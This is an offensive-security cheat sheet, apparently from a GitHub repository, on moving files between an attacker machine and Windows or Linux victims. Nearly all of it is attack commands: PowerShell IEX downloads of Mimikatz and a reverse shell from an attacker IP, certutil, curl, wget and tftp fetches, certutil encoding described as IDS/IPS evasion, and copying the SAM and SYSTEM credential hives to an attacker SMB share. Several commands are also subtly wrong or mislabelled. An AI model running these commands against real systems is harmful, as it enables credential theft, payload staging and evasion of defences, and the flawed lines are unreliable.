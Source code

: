 # File-Transfert-Methods

# Windows Methods

#### Powershell - Download in memory
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194:8000/Invoke-Mimikatz.ps1')
```

#### Powershell - Download in folder
Detected by Antivirus and SIEM tools such as Varonis
```
IEX (New-Object Net.WebClient).DownloadFile("http://192.168.119.194:8000/mimikatz.exe","C:\temp\mimikatz.exe")
```

***Important Note :*** In case of cmd shell and not powershell prompt, you can execute powershell command using "powershell -c 'COMMAND'". As exemple :
C:\Users\bill\Documents>powershell -c "(New-object System.Net.WebClient).DownloadFile('http://10.0.0.1:8000/myreverseshell.exe','C:\tmp\myreverseshell.exe')"

#### TFTP 
On the old Windows version sur as Windows XP, Windows 2000

On kali linux
(/tftp is a specific folder where the fille have to be put before to be uploaded on the victim. The uploaded file from the victim will be put here also)
```
atftpd --daemon --port 69 /tftp
```
On Windows
```
➤  Upload
tftp -i http://192.168.119.194:8000/ put filename
➤  Download 
tftp -i http://192.168.119.194:8000/ get filename
```

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Certutil

Basic transfert
```
certutil.exe -urlcache -split -f http://192.168.119.194:8000/mimikatz.exe output.file
```
Encoded transfert - Basic IPS/IDS evasion
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -urlcache -split -f "http://192.168.119.194:8000/mimikatz.txt" mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe
```

#### Copy
Upload a file from the Windows victim machine to the kali attacker machine.

```
#On the attacker kali machine, deploy a smb server
sudo python3 /opt/impacket/examples/smbserver.py kali .

#On the windows victime machine, upload the file
copy C:\Windows\Repair\SAM \\AttackerIP\kali\
copy C:\Windows\Repair\SYSTEM \\AttackerIP\kali\
```

# Linux Methods

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Wget
```
wget -O mimikatz.exe http://192.168.119.194:8000/mimikatz.exe
```

#### Bypass IPtable using SCP through SSH
```
In the case of IPtable restrict the possibility to upload a file on the victim machine.
If you have a ssh connection using a id-rsa key, you could try the SCP tool to upload the file through the SSH connection.

➤ Prerequisite : Have a ssh connection (id-rsa)

➤ Error :
wget -O test.txt http://192.168.1.1:443/test.txt
--2022-03-13-- http://192.168.1.1:443:test.txt
Connecting to 192.168.1.1:443 ...

➤ Command :

• From the attacker machine, download something from the victim machine (using password)
# scp <file_to_download> <username>@<ip>:/<location> <where_to_upload>
root# scp myfile.txt user@10.0.0.1:/home/user
user@10.0.0.1's password:
OR for download a complete repository 
root# scp myfile.txt user@10.0.0.1:/home/user/* .

• From the the attacker machine, download something from the victim machine (using ssh key)
# scp -i <ssh_key>  <username>@<ip>:/<location>/<file> <where_to_upload>
scp -i sshkey.pem user@10.0.0.1:/home/user/test.txt /tmp/

• From the attacker machine, upload something on a the victim machine
root# scp -i ~/.ssh/id_rsa myfile.txt user@10.0.0.1

• From the victim machine, upload something on the attacker machine
scp myfile.txt root@10.0.0.1:/root/ .
```
